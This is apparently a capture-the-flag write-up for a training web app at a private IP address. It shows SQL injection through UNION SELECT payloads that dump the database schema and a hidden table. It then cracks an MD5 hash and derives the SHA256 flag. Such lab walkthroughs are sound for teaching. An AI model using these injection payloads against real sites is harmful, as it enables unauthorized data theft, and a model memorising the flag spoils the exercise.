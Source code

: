 
http://10.12.100.231/?page=member

5 UNION SELECT table_name, column_name FROM information_schema.columns

First name: list_images

Surnames : title, url, comment

http://10.12.100.231/?page=searchimg

`5 UNION SELECT title, comment FROM list_images`

`ID: 5 UNION SELECT title, comment FROM list_images` 

Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?

[md5_decrypt](https://www.md5online.org/md5-decrypt.html) (1928e8083cf461a51303633093573c46) = albatroz

[Sha256](https://md5decrypt.net/en/Sha256/)(albatroz) = f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

